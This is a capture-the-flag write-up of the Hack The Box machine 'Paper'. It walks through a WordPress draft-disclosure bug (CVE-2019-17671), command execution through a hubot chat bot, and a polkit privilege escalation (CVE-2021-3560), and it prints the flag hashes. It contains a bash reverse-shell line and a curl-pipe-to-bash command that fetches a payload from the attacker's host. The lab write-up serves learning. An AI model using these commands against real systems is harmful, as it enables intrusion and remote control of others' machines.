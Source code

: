 # Paper

## System

IP Address: **10.10.11.143**

Hostname: **paper.htb**

OS: **********Linux**********

## Discovery

Nnap reveals three ports open:

```html
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
```

We know the flavor of linux is centos. It’s running Apache 2.4, which is fairly old. 

Browsing the HTTP page, we get a test page that is returned. Same for HTTPS. There’s a couple of interesting HTTP headers returned in the response:

```html
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
```

I wonder if that version of `mod_fcgid` is vulnerable. First, I’m going to investigate `office.paper`. I added that to my local hosts file and browse to the root page which is a wordpress blog: “Blunder Tiffin, Inc - Paper Company”. There are a couple of blog posts all written by user `Prisonmike`. There’s a post saying 

> As of now there is only one user in this blog. Which is me! Just me.
> 

Followed by a comment by `nick`:

> Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
> 

Those are big hints. Curling that page we also get back the version of PHP running on the system (`7.2.24`) and WPScan reports a number of vulnerabilities and the version of Wordpress running (`5.2.3`). One of the vulnerabilities reported is eerily similar to the comment from nick about secrets in post drafts:

```html
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
```

WPScan details the vulnerability here ([https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)) with a PoC:

```html
http://office.paper/?static=1
```

Which returns some unformatted content:

```html
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

## User

Browsing over to the link so thoughtfully provided, we are able to register and login into a chat account. There’s a long thread in `#general` about a user installing a chat bot that can list and get files on the system. Interacting with that user allows us to interact with the system. It’s apparently running hubot and I listed all the scripts provided by this hubot instance. One of which is very encouraging:

```html
<!=====Contents of file ../hubot/scripts/cmd.coffee=====>
# Description:
# Runs a command on hubot
# TOTAL VIOLATION of any and all security!
#
# Commands:
# hubot cmd <command> - runs a command on hubot host

module.exports = (robot) ->
robot.respond /CMD (.*)$/i, (msg) ->
# console.log(msg)
@exec = require('child_process').exec
cmd = msg.match[1]
msg.send "Running [#{cmd}]..."

@exec cmd, (error, stdout, stderr) ->
if error
msg.send error
msg.send stderr
else
msg.send stdout
```

Sure enough, there’s a hidden `cmd` command that `recyclops` will accept. We can get a remote shell with

```html
# Local Setup
$ cat <<EOF >shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.109/1337 0>&1
EOF
$ python -m http.server 8000
$ nc -lvnp 1337

# Requests
recyclops cmd curl http://10.10.14.17:8000/shell.sh|bash
```

Now we have the user shell:

```html
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.143] 35364
[dwight@paper hubot]$ cd
[dwight@paper ~]$ cat user.txt	
cat user.txt
81864dba1963e9be78dd89ed083fc42d
```

## System

One thing that stood out from `dwight`'s home directory is the presence of some sort of window manager. I was just working through another box trying a `polkit` privilege escalation (**CVE-2021-3560)** and checked if it was vulnerable here. We could go exploiting it manually ([https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)) or use a script developed by secnigma ([https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh)). Running this on the machine confirms the system is vulnerable and we can exploit it by running the script until we are able to login:

```html
[dwight@paper ~]$ su - secnigma              
Password: 
[secnigma@paper ~]$ sudo su
[sudo] password for secnigma: 
[root@paper secnigma]# cd
[root@paper ~]# cat root.txt
a3852855e9aa149503d7d17f9438ab96
```

This one was by far the easiest I’ve encountered, but still fun nonetheless.
